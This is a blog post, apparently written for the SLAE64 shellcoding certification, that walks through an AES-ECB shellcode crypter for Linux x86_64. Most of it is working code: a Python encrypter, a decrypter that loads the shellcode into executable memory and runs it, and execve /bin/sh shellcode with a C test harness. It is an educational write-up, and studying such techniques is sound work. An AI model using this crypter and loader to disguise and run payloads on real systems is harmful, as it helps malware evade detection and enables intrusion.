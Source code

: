 ```yaml
---
layout: single
title: AES Shellcode Crypter linux 86_64
date: 2018-7-27
classes: wide
header:
  teaser: /assets/images/AES_Shellcode_Crypter_Linux_x86_64/Forumla.png
---
```


Introduction
------------
The Advanced Encryption Standard (AES) is a symmetric block cipher encryption algorithm that uses the same key (also known as secret-key) for encryption and decryption where each cipher encrypts and decrypts data in blocks of `128-bit` using cryptographic keys of `128-bit`, `192-bit` and `256-bit`, respectively. AES consist of multiple modes of operation to preform encryption some of which requires random Initialization Vector (IV). In this post we’ll look at shellcode encryption/decryption using AES with `128-bit` key and Electronic Codebook (ECB) mode of operation.

![](/assets/images/AES_Shellcode_Crypter_Linux_x86_64/Forumla.png)

Crypter
-------
We will have [pycrypto](https://pypi.org/project/pycrypto/) python library do all of the heavy lifting for us. I did add two `lambda` one line functions to pad the plaintext and `base64` encode the final ciphertext.

```python
#!/usr/bin/env python

from Crypto.Cipher import AES
import sys
import os
import base64

if len(sys.argv) != 2:
	print '[!] Usage: ' + sys.argv[0] + ' <shellcode>'
	sys.exit(1)

Shellcode = sys.argv[1]

# encrypt shellcode
BlockSize = 16
Seperation ='{'
Pad = lambda s: s + (BlockSize - len(s) % BlockSize) * Seperation
Encode = lambda c, s: base64.b64encode(c.encrypt(Pad(s)))
Key = '_@ihack4falafel_'
print 'Encryption Key     : ' + Key
Cipher = AES.new(Key)
Encoded = Encode (Cipher, Shellcode)
print 'Encrypted Shellcode: ' + Encoded
```

Decrypter
---------
The decrypter first `base64` decode the ciphertext and then decrypt it to reproduce the original plaintext that is the shellcode. Once the shellcode is restored we will use `ctypes` python library to execute it.

```python
#!/usr/bin/env python

from Crypto.Cipher import AES
from ctypes import *
import sys
import os
import base64

if len(sys.argv) != 2:
	print '[!] Usage: ' + sys.argv[0] + ' <shellcode>'
	sys.exit(1)

Shellcode = sys.argv[1]

# decrypt shellcode
Seperation ='{'
decode = lambda c, e: c.decrypt(base64.b64decode(e)).rstrip(Seperation)
Key = '_@ihack4falafel_'
print 'Encryption Key     : ' + Key
Cipher = AES.new(Key)
decoded = decode (Cipher, Shellcode)
print 'Decrypted Shellcode: ' + decoded

# execute decrypted shellcode using ctypes
libc = CDLL('libc.so.6')
RawShellcode = decoded.replace('\\x','').decode('hex')
sc = c_char_p(RawShellcode)
size = len(RawShellcode)
addr = c_void_p(libc.valloc(size))
memmove(addr, sc, size)
libc.mprotect(addr, size, 0x7)
run = cast(addr, CFUNCTYPE(c_void_p))
run()
```

I’ve created `execve()` shellcode that spawns `/bin/sh` to test with.

```nasm
/*
section .text

global _start

_start:
 	push rax
	cdq
	push rdx
	pop rsi
	mov rbx,'/bin//sh'
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall
*/

#include<stdio.h>
#include<string.h>
 
 
unsigned char code[] = \
"\x50\x99\x52\x5e\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05";

main()
{
 
printf("Shellcode Length:  %d\n", (int)strlen(code));
 
int (*ret)() = (int(*)())code;
 
ret();
 
}
```

Let’s test the scripts using the above shellcode.

![](/assets/images/AES_Shellcode_Crypter_Linux_x86_64/AES-Demo.gif)

If you would like to convert the above python scripts to an executable, please refer to my SLAE32 blog series where I use `pyinstaller` to preform said conversion.

Closing Thoughts
----------------
In this post we learned about AES and how powerful python can be. This post marks the end of my SLAE64 series, I hope you enjoyed it and learned something along the way. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%207). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
